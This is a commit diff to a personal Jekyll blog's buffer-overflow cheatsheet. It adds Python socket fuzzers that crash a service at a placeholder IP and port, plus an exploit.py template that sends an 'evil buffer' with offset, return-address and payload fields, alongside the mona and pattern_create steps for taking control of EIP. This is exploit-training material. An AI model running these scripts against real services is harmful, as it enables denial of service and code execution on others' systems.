

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-11-bufferOverflow.md, in a window 1280 px wide and 1400 px high, scrolled down 190 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-08-11-bufferOverflow.md
+++ b/_posts/2020-08-11-bufferOverflow.md
@@ -19,14 +19,100 @@ description: "Buffer Overflow personnal cheatsheet"
 ### Fuzzing :
 
 - fuzzer.py / fuzzer2.py -> until app crash
+
+```
+#fuzzer.py
+
+import socket, time, sys
+
+ip = "IP"
+port = PORT
+timeout = 5
+
+buffer = []
+counter = 100
+while len(buffer) < 30:
+    buffer.append("A" * counter)
+    counter += 100
+
+for string in buffer:
+    try:
+        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+        s.settimeout(timeout)
+        connect = s.connect((ip, port))
+        s.recv(1024)
+        print("Fuzzing with %s bytes" % len(string))
+        s.send(string + "\r\n")
+        s.recv(1024)
+        s.close()
+    except:
+        print("Could not connect to " + ip + ":" + str(port))
+        sys.exit(0)
+    time.sleep(1)
+```
+
+```
+#fuzzer2.py
+
+import socket
+
+target_ip = "IP"
+target_port = PORT
+
+payload = 1000 * "A"
+
+try:
+    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+    s.connect((target_ip,target_port))
+    s.send(payload)
+    print "[+] " + str(len(payload)) + " Bytes Sent"
+except:
+    print "[-] Crashed"
+```
+
 - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l SIZE -> SIZE higher than crash offset
 
 ### Crash Replication & Controlling EIP :
 
 - modify payload variable by pattern (exploit.py)
+
+  ```
+  #exploit.py
+
+  import socket
+
+  ip = "IP"
+  port = PORT
+
+  prefix = ""
+  offset = 0
+  overflow = "A" * offset
+  retn = ""
+  padding = ""
+  payload = ""
+  postfix = ""
+
+  buffer = prefix + overflow + retn + padding + payload + postfix
+
+  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+  try:
+      s.connect((ip, port))
+      print("Sending evil buffer...")
+      s.send(buffer + "\r\n")
+      print("Done!")
+  except:
+      print("Could not connect.")
+  ```
+
+
+
 - !mona findmsp -distance SIZE -> SIZE same as pattern
+
 - EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)
+
 - modify retn variable by "BBBB", remove payload
+
 - Re-run exploit.py -> EIP should be "BBBB"
 
 ### Finding Bad Characters :
````
